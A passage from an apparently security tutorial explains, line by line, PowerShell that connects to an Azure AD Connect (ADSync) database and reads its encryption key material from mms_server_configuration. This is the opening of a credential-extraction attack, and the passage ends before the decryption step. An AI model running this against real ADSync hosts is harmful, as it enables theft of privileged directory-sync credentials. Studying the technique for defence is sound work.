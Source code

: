 

-  LocalDB Version:

    ```powershell
    $client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync"
    $client.Open()
    ```

    **Line-by-line breakdown**:

    1.  `$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync"`
        -   Creates a new SqlConnection object to connect to the `LocalDB` instance.
        -   `"Data Source=(localdb)\.\ADSync"` specifies the `LocalDB` instance name.
        -   `"Initial Catalog=ADSync"` specifies the database name.

    2.  `$client.Open()`
        -   Opens the connection to the database.



-  SQL Server Version:

    ```powershell
    $client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
    $client.Open()
    ```

    **Line-by-line breakdown**:

    1.  `$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"`
        -   Creates a new SqlConnection object to connect to a full SQL Server instance.
        -   `"Server=127.0.0.1"` specifies the local machine's loopback address, as SQL is running internally.
        -   `"Database=ADSync"` specifies the database name.
        -   `"Integrated Security=True"` enables Windows Authentication, using the current user's credentials.
            -   The current user would need to have the correct permissions on the SQL database.

    2.  `$client.Open()`
        -   Opens the connection to the database.

    This version would be used if attacking a full SQL Server instance running locally on the host, rather than the standard `LocalDB` installation.


#### 2. Retrieving Encryption Keys {#2-dot-retrieving-encryption-keys}

```powershell
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()
```
